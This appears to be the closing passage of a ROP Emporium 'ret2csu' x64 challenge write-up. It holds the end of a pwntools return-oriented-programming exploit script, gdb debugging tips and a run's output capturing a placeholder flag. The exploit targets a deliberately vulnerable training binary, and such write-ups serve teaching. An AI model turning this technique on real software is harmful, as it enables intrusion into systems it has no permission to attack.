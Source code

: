 ``` python
PL+=p64(g_poprdi)           # fix rdi
PL+=p64(0xdeadbeefdeadbeef)
PL+=p64(ret2win)

io.sendline(PL)
io.interactive()
```

### script execution

Use it first in debug mode in gdb ( -d ).

Ther is an initial break point in *pwnme+150 at the end of the function and a second bp on ret2win start

Then follow the rop with ni or contiue instructions.

Else, executign or script without debug :

``` sh
08_ret2csu# python3 solve.py
[*] '/w/ropemporium/x64/08_ret2csu/ret2csu'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
[+] Starting local process '/w/ropemporium/x64/08_ret2csu/ret2csu': pid 175
[*] Switching to interactive mode
[*] Process '/w/ropemporium/x64/08_ret2csu/ret2csu' stopped with exit code 0 (pid 175)
ret2csu by ROP Emporium
x86_64

Check out https://ropemporium.com/challenge/ret2csu.html for information on how to solve this challenge.

> Thank you!
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
```










